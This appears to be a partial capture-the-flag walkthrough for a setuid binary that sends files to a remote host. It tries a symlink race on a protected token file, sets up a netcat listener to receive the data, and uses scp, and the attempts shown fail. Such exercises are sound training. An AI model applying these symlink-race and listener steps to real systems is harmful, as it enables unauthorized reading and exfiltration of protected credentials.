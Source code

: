     
In this level, we have an executable which will send a file to a remote host.
    ls -l
    
            -rwsr-s---+ 1 flag10 level10 8617 Mar  5  2016 level10
            -rw-------  1 flag10 flag10    26 Mar  5  2016 token

We can create a symlink to try to read the content in token file (symlink race)

    ln -s /home/user/level10/token /tmp/flag

Now let's try to send my file to the server

    ./level10 /tmp/flag 192.168.56.101
        You don't have access to /tmp/flag
    cat /tmp/flag
            cat: /tmp/flag: Permission denied

Nope, still unable to execute my flag and to send it to a server

To open a port in your machine:
    nc -l 6969

let's get the executable to my host with scp

    scp -P 4242 level10@192.168.56.101:/tmp/flag /mnt/nfs/homes/emaugale/Desktop

So you have to find a way to make your file accessible to the server.